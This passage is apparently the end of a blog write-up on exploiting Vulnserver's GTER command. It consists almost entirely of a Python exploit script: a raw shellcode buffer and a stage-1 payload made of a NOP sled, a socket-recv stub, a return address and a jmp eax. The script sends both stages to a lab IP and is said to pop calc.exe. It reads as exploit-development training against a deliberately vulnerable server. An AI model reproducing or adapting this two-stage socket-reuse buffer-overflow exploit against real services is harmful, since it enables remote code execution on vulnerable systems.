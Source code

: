 ```c
buf += b"\x95\x8e\xf1\xe3\xc8\x63\xa3\xbc\x87\xd6\x54\xc9\xd2"
buf += b"\xea\xdf\x81\xf3\x6a\x03\x51\xf5\x5b\x92\xea\xac\x7b"
buf += b"\x14\x3f\xc5\x35\x0e\x5c\xe0\x8c\xa5\x96\x9e\x0e\x6c"
buf += b"\xe7\x5f\xbc\x51\xc8\xad\xbc\x96\xee\x4d\xcb\xee\x0d"
buf += b"\xf3\xcc\x34\x6c\x2f\x58\xaf\xd6\xa4\xfa\x0b\xe7\x69"
buf += b"\x9c\xd8\xeb\xc6\xea\x87\xef\xd9\x3f\xbc\x0b\x51\xbe"
buf += b"\x13\x9a\x21\xe5\xb7\xc7\xf2\x84\xee\xad\x55\xb8\xf1"
buf += b"\x0e\x09\x1c\x79\xa2\x5e\x2d\x20\xa8\xa1\xa3\x5e\x9e"
buf += b"\xa2\xbb\x60\x8e\xca\x8a\xeb\x41\x8c\x12\x3e\x26\x62"
buf += b"\x59\x63\x0e\xeb\x04\xf1\x13\x76\xb7\x2f\x57\x8f\x34"
buf += b"\xda\x27\x74\x24\xaf\x22\x30\xe2\x43\x5e\x29\x87\x63"
buf += b"\xcd\x4a\x82\x07\x90\xd8\x4e\xe6\x37\x59\xf4\xf6"

payload=b""
payload+=b"\x90"*40
payload+=file_descriptor
payload+=stack_adjustment
payload+=flag_value
payload+=buffer_size
payload+=buffer_pointer
payload+=get_file_descriptor
payload+=socket_recv
payload+=b"\x90"*(100-len(payload))
payload+=b"\x90"*51
payload+=b"\xaf\x11\x50\x62"
payload+=b"\x90"
payload+=b"\x83\xc0\x10"
payload+=b"\xff\xe0"

stage1=b""
stage1+=payload

stage2=b""
stage2+=buf
stage2+=b"\x90"*(1024-len(buf))

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))

print("[+] Sending STAGE 1 payload")
s.send((b"GTER "+stage1))
sleep(5)

print("[+] Sending STAGE 2 payload")
s.send(stage2)

print("[+] Exploit complete.. calc.exe popped")
s.close()
sys.exit()
```

After running this, we could successfully pop the ```calc.exe``` from the Vulnserver

[EXPLOIT VIDEO](https://raw.githubusercontent.com/AidenPearce369/AidenPearce369.github.io/main/_posts/Vulnserver/res/gter-2-exploit.mp4)
